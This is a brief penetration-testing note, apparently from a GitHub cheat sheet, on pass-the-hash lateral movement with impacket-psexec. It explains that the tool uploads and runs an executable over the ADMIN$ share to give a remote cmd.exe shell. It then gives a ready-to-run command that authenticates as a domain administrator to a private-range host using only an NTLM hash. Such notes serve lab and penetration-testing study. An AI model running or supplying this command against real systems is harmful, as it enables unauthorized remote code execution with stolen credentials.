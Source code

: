 ### PTH with impacket-psexec

Uses ADMIN$ share for connectivity.  Uploads exe and executes it.  Once executed, cmd.exe screen opens up on kali as domain user.

```bash
impacket-psexec corp1/administrator@192.168.134.5 -hashes :2892d26cdf84d7a70e2eb3b9f05c425e "C:\\windows\\system32\\cmd.exe"
```

